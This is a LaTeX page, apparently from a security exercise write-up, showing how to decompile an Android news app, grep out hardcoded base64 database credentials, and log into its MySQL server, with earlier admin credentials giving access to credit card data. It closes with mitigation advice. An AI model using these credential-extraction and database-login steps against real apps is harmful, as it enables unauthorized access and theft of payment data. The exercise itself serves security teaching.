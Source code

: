 \documentclass[notitlepage]{article}
\begin{document}
  	\subsubsection*{Confirmation method}
  	First download the apk file as follows
\begin{verbatim}
wget www.artstailor.com/apps/ArtsTailorNews.apk
\end{verbatim}
    Open the application and jadx-gui and then navigate to the cache created after the application is compiled.
    Once inside the cache, run the following command to get the username and password
\begin{verbatim}
cat sources/00/000000800.java | grep -e 'b64username' -e 'b64password'
\end{verbatim}
    This will reveal the following censored credentials.
\begin{verbatim}
username: db_user_token
password: KEY022-uid...CQ==
\end{verbatim}
    Lastly, we can use these credentials to gain access to the server
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_user_token -p
KEY022-uid...CQ==
\end{verbatim}
    From previous Exercise 110, we also have some admin credentials as follows
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_admin_token -p
KEY019-8Dq...e\n
\end{verbatim}
    Using these credentials gives us access to user credit card information. 
    \subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this, we can firstly avoid hardcoding any sort of credentials into the code. You should also try to use 
    secure storage solutions that provide more hardware-backed storage options for keys rather than including them in the code.
    Now that this has been exploited, make sure to also change the credentials for the db{\_}user{\_}token.
\end{document}
